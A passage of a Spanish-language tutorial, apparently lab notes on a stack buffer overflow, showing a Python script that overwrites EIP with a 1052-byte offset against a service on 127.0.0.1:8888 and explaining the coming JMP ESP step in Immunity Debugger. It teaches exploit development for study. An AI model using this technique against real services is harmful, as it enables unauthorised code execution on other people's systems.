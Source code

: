 Aqui despues de añadir las **A** que tiene que tener 1052 de offset y las 4 **B** que seria el EIP, vamos a añadir
500 **C** para buscar la direccion donde se sobre escribe el resto del programa.

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    offset = 1052
    before_eip = b"A" * offset
    eip = b"B" * 4
    after_eip = b"C" * 500

    payload = before_eip + eip + after_eip

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((remoteAddress, 8888))
    s.send(payload)

if __name__ == "__main__":
    executeExploit()
```

Si lanzamos el script, vemos en el Immunity debugger que el EIP vale ahora 42424242, es el punto donde savemos que tenemos el control
del EIP. Ahora la pregunta es, que tiene que valer el EIP para poderle injectar los commandos que queremos. Pues en el Immunity debugger,
que el **ESP** contiene un monton de **C**. el ESP es la Stack. Si le hacemos un click derecho a la direccion y les damos a **Follow in Dumb**,
en la parte baja de la izquierda vemos todas la **C** en formato raw.

Al final aqui la direccion a la cual tenemos que appuntar es a la **ESP**

```bash
 0x0022D470 
```

 que es la pilla. El problema es que no podemos simplemente ponerle al
EIP la direccion del ESP porque esto no va a funccionar. Tendremos aqui que usar un concepto que se llama **OPCODE**. El **OPCODE** son instrucciones
a bajo nivel que nos permitte hacer un Jump al ESP llamado **JMPESP**.

Pero antes de mirrar el **OPCODE**, vamos a preparar el script malicioso que queremos ejecutar.
